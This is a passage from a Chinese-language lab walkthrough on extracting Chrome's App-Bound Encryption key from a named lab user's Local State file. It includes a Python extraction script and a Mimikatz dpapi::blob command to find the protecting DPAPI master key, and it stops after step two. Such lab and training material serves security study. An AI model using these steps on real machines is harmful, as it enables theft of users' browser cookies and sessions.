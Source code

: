 在确认以上前提后，下面按步骤开始实际操作：

（1）首先，“ITWS-DLEWIS” 主机上将 “offseclabs\david.lewis” 用户所属的 Cookies 和 Local State 文件拷贝到本地，并通过以下 Python 脚本，将 Local State 文件 `os_crypt.app_bound_encrypted_key` 值以 BLOB 的格式提取到 “app_bound_encrypted_key.bin” 文件中：

```python
import binascii
import json

# Load local state file
with open("local state", "r") as f:
    local_state = json.load(f)

# Extract the app-bound encrypted key
app_bound_encrypted_key = local_state["os_crypt"]["app_bound_encrypted_key"]

# Ensure it starts with "APPB"
assert binascii.a2b_base64(app_bound_encrypted_key)[:4] == b"APPB"

# Strip the "APPB" header and convert to Base64
app_bound_encrypted_key_b64 = binascii.b2a_base64(
    binascii.a2b_base64(app_bound_encrypted_key)[4:]
).decode().strip()

# Print the key in hex format
print(binascii.a2b_base64(app_bound_encrypted_key)[4:].hex())

# Convert hex to bytes
byte_data = bytes.fromhex(
    binascii.a2b_base64(app_bound_encrypted_key)[4:].hex()
)

# Write to file
with open("app_bound_encrypted_key.bin", "wb") as w:
    w.write(byte_data)
```

（2）使用 Mimikatz 对 “app_bound_encrypted_key.bin” 中的 Data BLOB 进行解析，找出保护它的机器/系统 MasterKey 的 GUID：

```powershell
dpapi::blob /in:".\app_bound_encrypted_key.bin"
```
